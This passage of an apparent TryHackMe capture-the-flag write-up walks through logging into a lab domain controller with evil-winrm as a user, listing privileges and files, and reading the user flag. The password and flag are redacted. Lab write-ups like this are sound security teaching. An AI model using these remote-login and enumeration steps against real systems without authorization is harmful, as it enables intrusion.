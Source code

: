 <br>
<br>
<br>

<h3 align="center">Shell as <strong>o.armstrong</strong></h3>

```bash
:~/K2# evil-winrm -i K2RootDC.k2.thm -u 'o.armstrong' -p '⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃'

*Evil-WinRM* PS C:\Users\o.armstrong\Documents> whoami
k2\o.armstrong
```

```bash
*Evil-WinRM* PS C:\Users\o.armstrong\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set
```

```bash
*Evil-WinRM* PS C:\Users\o.armstrong\Desktop> dir


    Directory: C:\Users\o.armstrong\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        5/30/2023   1:35 AM            136 notes.txt
-a----        5/30/2023   2:28 AM             38 user.txt


*Evil-WinRM* PS C:\Users\o.armstrong\Desktop> cat user.txt
THM{********************************}
```

<img width="1778" height="496" alt="{79790363-52AA-48B3-B11B-8B87DAACAF2D}" src="https://github.com/user-attachments/assets/8c1b8daa-9128-47a4-bd31-a046a1032177" />

<br>
<br>
<br>
<p>3.1. What is the user flag?<br>
<code>THM{********************************}</code></p>
<br>
<br>
<br>
